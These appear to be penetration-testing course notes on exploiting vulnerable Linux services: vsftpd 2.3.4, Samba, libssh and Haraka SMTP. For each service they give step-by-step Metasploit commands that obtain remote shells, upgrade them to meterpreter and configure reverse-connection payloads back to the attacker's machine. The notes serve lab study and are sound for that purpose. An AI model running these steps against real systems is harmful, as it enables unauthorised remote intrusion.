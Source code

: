 # ii - Linux Exploitation

## <mark style="color:red;">Exploiting A Vulnerable FTP Server</mark>

* FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
* It is also frequently used as a means of transferring files to and from the directory of a web server.
* vsftpd is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.
* vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through a supply chain attack.

### **Practical Demonstration**

```bash
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor #Exploit for vsftpd 2.3.4
msf5 > use post/multi/manage/shell_to_meterpreter # Upgrade a shell to meterpreter
```



## <mark style="color:red;">Exploiting SAMBA</mark>

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it.

### **Practical Demonstration**

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
use exploit/linux/samba/is_known_pipename #Exploit for Samba V3.5.0 to V4.6.4
check # runs a check to know if the victim is vulnerable.
run # we get a shell session, lets upgrade it to a meterpreter session.
search shell_to_meterpreter
use 1
set SESSION 1
set LHOST $kaliIP
run # done.
sessions # view sessions.
```



## <mark style="color:red;">Exploiting A Vulnerable SSH Server</mark>

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side.
* libssh V0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server.

### **Practical Demonstration**

```bash
search libssh_auth_bypass
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass #Exploit for SSH V0.6.0 to V0.8.0
set SPAWN_PTY true
run # we get a shell session.
```



## <mark style="color:red;">Exploiting A Vulnerable SMTP Server</mark>

* SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.
* SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.
* Haraka is an open source high performance SMTP server developed in Node.js
* The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to V2.8.9 are vulnerable to command injection.

### **Practical Demonstration**

```bash
search type:exploit name:haraka
msf5 > use exploit/linux/smtp/haraka #Exploit for Haraka prior to V2.8.9.
set PORT 9898
set email_to root@attackdefense.test
set PAYLOAD linux/x64/meterpreter_reverse_http
set LHOSTS $kaliIP
run
```





